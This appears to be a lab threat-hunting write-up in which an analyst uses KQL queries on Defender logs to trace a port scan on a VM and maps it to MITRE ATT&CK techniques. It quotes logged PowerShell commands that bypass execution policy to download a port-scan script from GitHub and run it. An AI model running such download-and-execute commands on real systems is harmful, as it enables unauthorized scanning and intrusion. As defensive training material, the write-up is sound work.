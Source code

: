 The device `khanglab` was found with multiple "ConnectionFailed" actions
```kql
DeviceNetworkEvents
| order by TimeGenerated desc
| where DeviceName == "khanglab"
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, RemoteIP, LocalIP
| order by ConnectionCount
```
<img width="1212" alt="image" src="https://github.com/aktran321/threat-hunting-scenario-tor/blob/main/Screenshot%202025-10-22%20at%207.58.01%20PM.png">

Taking a closer look at the IP in question `10.0.0.103`, it appears to be doing a port scan which is causing the multiple failed attempts

```kql
let IPinQuestion = "10.0.0.103";
DeviceNetworkEvents
| order by TimeGenerated desc
| where ActionType == "ConnectionFailed"
| where LocalIP == IPinQuestion
| project TimeGenerated, ActionType, DeviceName, LocalIP, LocalPort, RemoteIP, RemotePort, InitiatingProcessCommandLine
```

<img width="1212" alt="image" src="https://github.com/aktran321/threat-hunting-scenario-tor/blob/main/Screenshot%202025-10-23%20at%205.57.47%20AM.png">

We see that the `InitiatingProcessCommandLine` field shows a PowerShell script being ran called `portscan.ps1`. If we look further down the logs, we would see typical ports being scanned like 21 (FTP), 22 (SSH), 80 (HTTP), 443 (HTTPS), 3306 (MySQL), 8080 (HTTP), etc.

Next, we look into the `DeviceProcessEvents` table for suspicious activity. The time that we look into is
```kql
let VMName = "khanglab";
let specificTime = datetime(2025-10-22T12:37:33.5976645Z);
DeviceProcessEvents
| where TimeGenerated between ( (specificTime - 10m) .. (specificTime + 10m) )
| where DeviceName == VMName
| order by TimeGenerated desc
| project TimeGenerated, FileName, InitiatingProcessCommandLine
```

![[Screenshot 2025-10-23 at 5.58.19 AM.png]]

We see at `2025-10-22T12:36:57.678805Z` an `Invoke-WebRequest` command is used to download the `portscan.ps1` script from Github.
```
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
```

In `DeviceFileEvents`, we can see that the file was then created.
```
let VMName = "khanglab";
let specificTime = datetime(2025-10-22T12:37:33.5976645Z);
DeviceFileEvents
| where TimeGenerated between ( (specificTime - 10m) .. (specificTime + 10m) )
| where DeviceName == VMName
```


At `2025-10-22T12:37:01.9554571Z`, the script is executed with this command
```
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

With further investigation, we found the command was run by the SYSTEM account. This was not setup by an admin, so we isolated this device through MDE (Microsoft Defender for Endpoint) and ran a malware scan.


## MITRE ATT&CK Framework Related TTPs
- T1059.001 — PowerShell (Execution)
- T1204.002 — User Execution: Malicious File
- T1562.001 — Impair Defenses: Disable or Modify Tools (Execution Policy Bypass)
- T1027 — Obfuscated Files or Information
- T1046 — Network Service Scanning
- T1018 — Remote System Discovery
- T1071.001 — Application Layer Protocol: Web Protocols (HTTP/S download)
- T1053.005 — Scheduled Task/Job: Scheduled Task (potential persistence)
- T1078 — Valid Accounts (script run as SYSTEM)
